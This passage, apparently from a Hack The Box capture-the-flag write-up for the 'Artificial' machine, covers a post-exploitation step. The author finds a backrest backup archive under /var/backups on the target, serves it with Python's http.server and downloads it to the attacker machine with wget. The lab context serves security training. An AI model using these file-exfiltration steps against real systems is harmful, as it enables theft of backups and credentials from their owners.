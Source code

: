 ```
http://localhost:9898/#/getting-started
```
<img src="/assets/HTB/Artificial/image6.png" alt="Error loading Image">


If we try to log in with the credentials, we fail.

On the box, under `/var`, we have a backup:

```bash
cd /var/backup
```

Transfer the file to the local machine:

**On the SSH session (target):**

```bash
python3 -m http.server
```

**On the local machine (attacker):**

```bash
wget http://10.129.148.48:8000/backrest_backup.tar.gz
```


```
gael@artificial:~$: cd /var/
gael@artificial:/var$ ls
backups  cache  crash  lib  local  lock  log  mail  opt  run  spool  tmp  www
gael@artificial:/var$ cd backups/
gael@artificial:/var/backups$ ls
apt.extended_states.0    apt.extended_states.2.gz  apt.extended_states.4.gz  apt.extended_states.6.gz
apt.extended_states.1.gz apt.extended_states.3.gz  apt.extended_states.5.gz  backrest_backup.tar.gz
gael@artificial:/var/backups$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

